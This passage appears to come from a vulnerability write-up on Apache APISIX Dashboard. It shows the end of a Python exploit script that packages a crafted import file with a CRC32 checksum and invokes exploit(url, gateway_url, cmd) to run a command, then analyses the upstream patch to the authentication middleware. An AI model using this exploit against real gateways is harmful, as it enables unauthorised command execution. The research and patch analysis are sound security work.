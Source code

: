 ```
                "type": "roundrobin",
                "scheme": "http",
                "pass_host": "pass",
                "name": "testUpstream"
            }
        ],
        "GlobalPlugins": [],
        "PluginConfigs": []
    }

    json_data = json.dumps(data).encode('utf-8')
    checksum = zlib.crc32(json_data).to_bytes(4, byteorder='big')
    content = json_data + checksum

    import_data = content[:-4]
    checksum2 = int.from_bytes(content[-4:], byteorder='big')
    if checksum2 != zlib.crc32(import_data):
        return None, "Checksum check failure,maybe file broken"

    return content, None

exploit(url, gateway_url, cmd)
```

And now let's try to execute or code and check it out:

![](/assets/images/d84b6cc540da7630f7d567a08c17839b)

# **Patch Diffing**

Now, Let's take a look at the patch that used to prevent the vulnerability, We can see the patch information on `github`from [here](https://github.com/apache/apisix-dashboard/commit/b565f7cd090e9ee2043fbb726fbaae01737f83cd?diff=split). The changes applied to a lot of files, So we will be focusing on the important ones.

### api/internal/core/server/http.go

![](/assets/images/ba6d3e7b54e1a5925538c309575d92a5)

The `AuthenticationMiddleware` middleware from the filter package was removed and the `ErrorTransformMiddleware` middleware from the handler package was added as the `ErrorTransformMiddleware` middleware from the handler package may be more suitable for catching errors.

### api/internal/filter/authentication.go

![](/assets/images/89e51847d4119b187e61c8dc1a39138d)

Here we can see the new implementation uses `gin.Context` instead of `droplet.Context` and basically, it's refactoring the `AuthenticationMiddleware` into a `gin.HandlerFunc` function. The changes done as the following,The `BaseMiddleware` is no longer used ansd replaced with `gin` to handle the middleware stack, Then `Handle()` method is replaced with a function which returns a `gin.HandlerFunc` to `Authentication()`. `httpReq := ctx.Get(middleware.KeyHttpRequest)` and `req := httpReq.(*http.Request)` replaced with `c.Request`. So, instead of retrieving the request object from the `droplet.Context` using `ctx.Get(middleware.KeyHttpRequest)` and `httpReq.(*http.Request)`, the `http.Request` object is directly retrieved from the `gin.Context` object using `c.Request`. Also, the response object is replaced with a `gin.H` object which is a shorthand for creating `JSON` responses.Finally, the `AbortWithStatusJSON()` method is used to return the response with an `HTTP` status code.
